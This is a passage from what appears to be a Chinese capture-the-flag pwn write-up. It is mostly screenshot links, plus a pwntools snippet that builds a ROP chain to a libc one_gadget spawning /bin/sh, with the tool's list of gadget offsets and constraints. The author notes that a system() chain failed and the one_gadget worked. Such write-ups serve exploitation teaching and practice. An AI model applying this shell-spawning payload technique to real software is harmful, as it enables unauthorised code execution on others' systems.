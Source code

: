 [![](assets/1701606597-05567e95d8001bcfbfcbe11972cca579.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170324-ff8c579e-845e-1.png)

[![](assets/1701606597-7bd2d737d7b2a9ba93e72190c1416893.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170328-022e8fe4-845f-1.png)

蚌埠住了，栈平衡真的好玄学，sys调了好久都不行，换og一把出了

```plain
r12 = 0x000000000002f709+libc_base
og = libc_base + 0xe3afe
pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
p.send(pl)

'''
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
'''
```

[![](assets/1701606597-6e839b5c7e8e9164fb03390fafcb8b65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170334-0588b2d2-845f-1.png)
